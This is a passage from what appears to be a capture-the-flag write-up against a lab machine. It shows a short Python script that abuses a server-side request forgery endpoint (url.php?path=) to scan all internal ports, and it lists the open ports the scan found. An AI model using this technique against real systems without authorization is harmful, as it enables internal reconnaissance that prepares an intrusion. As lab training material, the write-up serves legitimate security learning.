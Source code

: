 I tried loading a website that was hosted on the target box and received a 200 response.

![image](assets/82160947-d40e1400-9866-11ea-8b7a-18c6764ce647.png)

In order to see what else was listening on internal ports I wrote a quick python script that uses the requests module to check if the host is listening on a range of ports, in this case I specified them all: 1 - 65535. I was able to determine if a port was listening by looking at the length of the response and print that to the screen.

```python
import requests

url = "http://10.10.10.55:60000/url.php?path=localhost:"

for x in range(1, 65535):
    r = requests.get(url+str(x))
    length = (len(r.text))
    if length > 2:
        print("[*] Response received on port: " +str(x))
```

The script showed that ports 22,90,110,200,320,888,3306, and 8080 were open. The script hadn't finished yet but it was going to take quite a while so I just let it run and pushed forward.

![image](assets/82164096-f14ddd00-987c-11ea-9bae-fde9edf4458f.png)
